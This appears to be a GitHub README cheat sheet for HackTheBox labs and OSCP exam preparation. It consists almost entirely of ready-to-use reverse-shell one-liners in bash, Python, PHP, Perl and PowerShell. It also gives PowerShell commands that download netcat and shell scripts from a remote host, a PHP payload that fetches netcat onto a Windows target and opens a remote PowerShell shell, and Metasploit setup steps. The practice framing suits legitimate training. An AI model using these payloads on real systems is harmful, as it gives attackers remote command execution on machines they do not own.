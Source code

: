 # HackTheBox
For OSCP preparation!

## CheatSheet
* [Reverse shell](#Reverse)
* [Powershell Cheatsheet](#Useful-GOTO LIST)
* [Metasploit Setup](#Metasploit)
### Bash

```bash
bash -i >& /dev/tcp/{IP}}/{PORT}} 0>&1
sh -i >& /dev/udp/{IP}/{PORT}} 0>&1

0<&196;exec 196<>/dev/tcp/<your IP>/<same unfiltered port>; sh <&196 >&196 2>&196
```

### Python

```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### php
```PHP
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IP]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Powershell

```Powershell
Create shell.ps1

$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Useful-GOTO LIST


**One Liner Download file with powershell**
```Download File -Powershell
cmd.exe> powershell IWR http://10.12.12.12/nc.exe -outfile \\PATH\\nc.exe

PS> Invoke-WebRequest http://10.10.15.15/shell.ps1 -OutFile c:\shell.ps1
```
**One liner PHP Reverse shell when Target machine is Windows**
```

<?= system("powershell IWR http://10.12.12.12/nc.exe -outfile \\windows\\temp\\nc.exe; \\windows\\temp\\nc.exe 10.12.12.12 4444 -e powershell.exe 2>&1") ?>

Start Listerner > nc -lvnp 4444
If reverse shell does not connect -Verify if target machine has AV as it may delete the netcat.
```
## Metasploit

```
root@Miracle:~# apt update; apt install metasploit-framework 
root@Miracle:~# msfdb delete
root@Miracle:~# msfdb init
root@Miracle:~# cp /usr/share/metasploit-framework/config/database.yml /root/.msf4/
root@Miracle:~# service postgresql restart
root@Miracle:~# msfconsole
MSF5 > db_status
Msf5 > db_rebuild_cache

Easy
```
